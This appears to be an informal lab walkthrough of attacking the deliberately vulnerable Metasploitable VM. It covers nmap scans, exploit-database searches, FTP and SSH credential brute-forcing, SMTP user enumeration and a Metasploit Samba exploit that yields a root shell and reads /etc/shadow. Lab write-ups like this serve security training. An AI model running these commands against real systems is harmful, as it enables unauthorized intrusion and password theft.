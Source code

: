 ### download the machine from https://www.vulnhub.com/entry/metasploitable-1,28/  
then luanch using vmware credintials are msfadmin:msfadmin
ip a to get machine 

Notes :
----

make sure your system is upgraded           
sudo apt update && sudo apt upgrade                 
sudo apt isntall exploitdb 


scan the target using nmap 
--
Nmap -sV -Sc <machine ip>  get 12 open ports 21 -22-23-25-53-80-139-445-3306-5430-8009
 
  
now lets walkthough each port and see what we can do (sepratly and combined ):
----

PORT  ::  STATE  ::  SERVICE ::  VERSIO
  
21/tcp :: open :: ftp ::   ProFTPD 1.3.1  
  ----

perform the command "searchsploit ProFTPD 1.3.1 " to check if the service is vulnerable
  
Exploits: No Results

try "searchsploit ProFTPD 1.3. " 
  
found some intersting result like " ProFTPd IAC 1.3.x - Remote Command Execution | linux/remote/15449.pl"
  
run the command " searchsploit -m linux/remote/15449.pl "   to mirror the exploit which is  source code written in Perl 
  
nano 15449.pl
  
taking some time try to understand the code and verify that's not malicous
  ----
using the interpreter python to verfiy ech hexa variable 
  
i DECIDED TO Import this source code to metasploit As module if you don't know how 
watch this video for it >> https://www.youtube.com/watch?v=l7mwIvT5YNo

the result was'nt pleasent :::Metasploit is not detecting the scrpit  
  --
i've tried alot but doesn't work
  
searching for the issu found that this exploit does not written as metasploit module so 
  
msf would have no idea what to do with it
  
you can see this article  https://github.com/rapid7/metasploit-framework/issues/12825

so i decided to run the exploit as it is using perl interpreter 
  --
typeing perl 15549.pl <ip target> <my ip> target type

it appeared that this script does not have vuln for the exact ProFTPD 1.3.1  So it fails to exploit the service 

so i've moved to another approched " brute forcing the service for weak credintials " 
  --
using Nmap Engine 
nmap <tagetip> 21 --script =ftp-brute.nse

took 600s to find valid credintial of user:user 

checking to see if this ftp supports excuting command through " SITE EXEC command" 
it seems like it does not support that 

so far we got valid credintaial for ftp with no ablility to excute commands or existance of sensitve files
 perform another intensive scan for the ftp , found potential vuln
 
 CVE-2011-4130 CVSS 9.0
 ---
 
allows remote authenticated users to execute arbitrary code , let's give it a shot 
 unfortentally there are no proof of concept or working exploit availabe online also there is no metasploit module for it
 
 so let's move on
 
 
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
----
trying the same credintial of fttp for ssh it works :D 

  now we can excute files on the machine  
 
 get step back and use nmap scropt engine for inteinsive scanning for port22
 
 nmap -sV -sC 192.168.1.3 -p 22 --script vuln get some result 
 
 CVE-2011-1013 CVSS 7.2
---
 allows local users to cause a denial of service (system crash)

 CVE-2010-4478 CVSS 7.5
---
 which allows remote attackers to bypass the need for knowledge of the shared secret, and successfully authenticate
 
  unfortentally there are no proof of concept or working exploit availabe online also there are no metasploit module for them
 
 so i've moved to another approched " brute forcing the service for root credintials " using metaspolit
 ---
 msf > use auxiliary/scanner/ssh/ssh_login
 
msf auxiliary(ssh_login) > set RHOSTS 10.0.0.27
 
RHOSTS => 192.168.1.3
 
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 

 msf auxiliary(ssh_login) > run
 
 no promising results , so lets move forward 
 
23/tcp   open  telnet      Linux telnetd
---
 nmap

  nmap -sV -sC 192.168.1.3 -p 23 --script vuln get some result
 saerchsplit for telnet linux 
 coulden't verfy that the service is vulnerable 

 25/tcp   open  smtp        Postfix smtpd
 -----
 
 nmap -sV -sC 192.168.1.3 -p 23 --script vuln get some result
 the service is vurnalble to two mitm attacks (which i skiped) 
 enumerating the user using smpt-user-enum tool getting me this result 
 --
 
 192.168.1.3:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data

bruteforcing the password using hydra but authentication not enabled on the server 
 
 53/tcp   open  domain      ISC BIND 9.4.2
----
 using nmap engine found CVE-2008-0122 CSSV 10.0 vulnebilitys that causes Denial Of ServiceExecute CodeMemory corruption

 
 There are not any metasploit modules related to this CVE or any working online exploit
 
 
 
 80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)
---
 running nmap , searching edb and mfs couldn't verfy vulnerability for the exact version of the service
 
 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
----
 saerching exploit database for Samba getting me MSF module that returns a root shell 
 > use exploit/multi/samba/usermap_script
> set RHOST 192.168.1.3
> exploit 

 who ami >> root 
 sudo/etc/shadow :D 
 
 
